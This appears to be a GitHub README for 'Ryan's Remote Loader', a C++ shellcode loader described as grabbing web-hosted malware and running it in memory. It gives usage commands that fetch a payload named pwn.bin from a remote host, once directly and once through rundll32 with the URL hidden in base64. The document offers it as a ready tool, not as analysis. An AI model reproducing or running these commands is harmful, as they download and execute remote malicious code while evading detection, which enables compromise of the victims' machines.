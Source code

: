 # Ryan's Remote Loader

Custom shellcode loader written in C++. This will grab your web hosted malware and run it in memory.

This project is password protected at this time.

![alt text](https://github.com/ryansisco/RyansRemoteLoader/blob/main/RRL.png?raw=true)

## Examples:
RRL.exe will take the remote bin file as a parameter like:
`RRL.exe http://10.0.0.54/pwn.bin`

This can also be run as a DLL using a base64 encoded parameter: 
`rundll32.exe RRLDLL.dll,Driver aHR0cDovLzEwLjAuMC41NC9wd24uYmluCg==`
